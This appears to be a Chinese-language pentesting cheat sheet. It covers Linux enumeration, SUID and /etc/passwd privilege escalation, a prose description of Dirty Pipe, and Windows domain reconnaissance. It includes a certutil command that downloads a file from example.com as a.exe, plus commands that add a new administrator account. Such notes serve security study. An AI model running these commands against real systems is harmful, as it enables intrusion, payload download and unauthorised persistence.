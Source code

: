 # Linux

## 系统架构信息
* uname -a ： uname命令报告有关计算机的软件和硬件的基本信息。
* cat /etc/issue ：文件/ etc / issue是一个文本文件，其中包含要在登录提示之前打印的消息或系统标识
* cat /etc/*-release ： 文件包含一个被解析以获取信息的描述行。
* cat /proc/version ：/ proc/versio指定了Linux内核的版本，用于编译内核的gcc的版本以及内核编译的时间。 它还包含内核
编译器的用户名。
* cat /proc/sys/kernel/version ： /proc/sys/kerne / 中的文件可以用来调整和监视Linux内核操作中的各种活动

## 进程

* ps -ef /ps aux : 列出当前进程快照
* ls -al /proc/ : /proc是非常特殊的，它也是一个虚拟文件系统。 它有时被称为过程信息伪文件系统。 它不包含“真实”文件，而是包含运行时系统信息（例如系统内存，安装的设备，硬件配置等）。
* ls -al /proc/99 :查看关于PID 99的信息.

## 服务

* service -status-all 检查所有服务状态
* systemctl -a 列出安装在文件系统中的所有单元
* cat /etc/services /etc/services将端口号映射到指定的服务

## suid

suid指的是set owner User ID up on execution linux可执行文件的一个属性 suid可以让其他用户执行程序时 以程序所有者的权限运行

比如常见的passwd就带有suid位 所有用户都可以使用他来设置密码:

```
root@eb5936bbd348:~/tmp# ls -al /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 Jul 14  2021 /usr/bin/passwd
```
 
编译一段可执行程序 并设置suid

![path](https://nanazeven.github.io/image/2022-03-15-15-52-46.png)


查找根目录下所有的suid程序`find / -perm -u=s -type f 2>/dev/null`:

![path](https://nanazeven.github.io/image/2022-03-15-15-54-36.png)

## /etc/passwd /etc/shadow

```
root@eb5936bbd348:/# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

passwd文件的第二列为x代表root用户的密码存放在shadow文件中

可以覆盖或修改passwd中root行第二列的x为空 root密码置空 实现提权


## Dirty Pipe提权漏洞（CVE-2022-0847）

内核在5.8以上的 可以通过Dirty Pipe漏洞覆盖只读文件内的数据 限制条件是:

- 只能向已经存在文件内写入
- 文件的第一个字符不可以写入
- 写入长度不能超过源文件

在Linux 5.16.11, 5.15.25 and 5.10.102内核版本中修复

向只读文件passwd中写入,将root所在行的第二列x覆盖掉 最后通过su无密码切换root:

![path](https://nanazeven.github.io/image/2022-03-15-14-05-01.png)

第二种提权方式通过修改带有suid属性的程序来提权:

![path](https://nanazeven.github.io/image/2022-03-15-15-58-04.png)

## kali

### 启用root

- sudo passwd

## null

人之贵贱在乎于心 其心贵 虽为贩夫走卒 难掩浩然之气.其心贱 总理庙堂之高

清交淡如水 亲疏随意 爱恨随缘 清凉自在


贫富差距

兴 百姓苦 亡 百姓苦


# windows

## Windows上自带Certutil

### 下载

certutil可用于从互联网下载文件。

```shell
certutil.exe -urlcache -split -f http://example.com/a.txt a.exe
```

## 域信息收集常用命令

net use  查看ipc连接情况
net user /domain 获取域用户列表
net user test 123 /add 添加用户
net localgroup administrators test /add 添加test用户到管理组，一般情况下，管理组才能远程桌面
net group /domain 查询域里面的组
net group "domain admins" /domain 获取域管理员列表
net group "enterprise admins" /domain   查看当前域中企业管理员组用户
net group "domain computers" /domain    查看当前域中的所有的计算机名（登录过该域的计算机）
net group "exchange servers" /domain    查看域内是否存在Exchange
net group "domain controllers" /domain 查看域控制器(如果有多台)
net config workstation  查看当前登录域
net view 查看同一域内机器列表
net view \\ip 查看某IP共享
net view \\test 查看test计算机的共享资源列表
net view /domain 查看内网存在多少个域
Net view /domain:test 查看test域中的机器列表
wmic useraccount get Caption,sid    获取域内所有用户sid
setspn -T target.com -Q */*     获取当前域内所有spn
for /l %i in (1,1,255) do @ping 192.168.0.%i -w 1 -n 1 | find /i"ttl"
for /l %i in (1,1,255) do @ping 10.10.10.%i -w 1 -n 1 | find /i"ttl"

systeminfo  查看补丁情况，也能看到当前机器是否加入域环境
net group "domain controllers" /domain  查询域控
nslookup -type=SRV _ldap._tcp.corp  通过srv记录获取域控地址
nltest /dclist:corp     使用nltest查询域控列表
tasklist /svc   查看进程及对应服务名
cmdkey /l   查看当前保存的登陆凭证
type c:\Windows\system32\drivers\etc\hosts  可以发现些内网IP


### 黄金票据(Golden Ticket)

在普通域用户权限和krbtgt hash的情况下,获取域管理员权限.

## HTA（html应用程序）攻击

# 常见的路由协议

# 提权

windows下有user administrator system
linux下有user www-data root

常规提权思路有:

- 系统内核溢出漏洞提权
- 服务器中间件漏洞提权
- 数据库提权
- 第三方组件提权


